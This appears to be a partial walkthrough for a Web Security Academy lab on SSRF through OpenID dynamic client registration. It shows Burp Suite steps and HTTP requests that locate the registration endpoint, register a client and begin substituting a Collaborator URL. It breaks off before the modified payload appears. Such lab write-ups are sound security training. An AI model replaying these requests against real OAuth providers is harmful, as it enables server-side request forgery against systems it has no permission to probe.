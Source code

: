 ```bash
https://oauth-ac511f431ea14217c03a073102a300e6.web-security-academy.net/.well-known/openid-configuration

Ctrl+f

"registration_endpoint"

Find:

"registration_endpoint":"https://oauth-ac841f571f356c45c00802df02ce00e2.web-security-academy.net/reg"

Go to: Repeater
Add:

POST /reg HTTP/1.1
Host: oauth-ac511f431ea14217c03a073102a300e6.web-security-academy.net
Content-Type: application/json
Content-Length: 49

{
"redirect_uris": [
  "https://test.com"
]
}

Response:

HTTP/1.1 201 Created

Go to: HTTP history
Find:

GET /client/wlx1vcpjkusmdyc4iz67a/logo HTTP/1.1

Send to repeater

Go to Burp -> Burp Collaborator client -> Copy to clipboard
Go to: Repeater
Find:

POST /reg HTTP/1.1

Change:

POST /reg HTTP/1.1
Host: oauth-ac511f431ea14217c03a073102a300e6.web-security-academy.net
Content-Type: application/json
Content-Length: 49

{
"redirect_uris": [
  "https://test.com"
]
}

To

POST /reg HTTP/1.1
Host: oauth-ac511f431ea14217c03a073102a300e6.web-security-academy.net
Content-Type: application/json
Content-Length: 115

```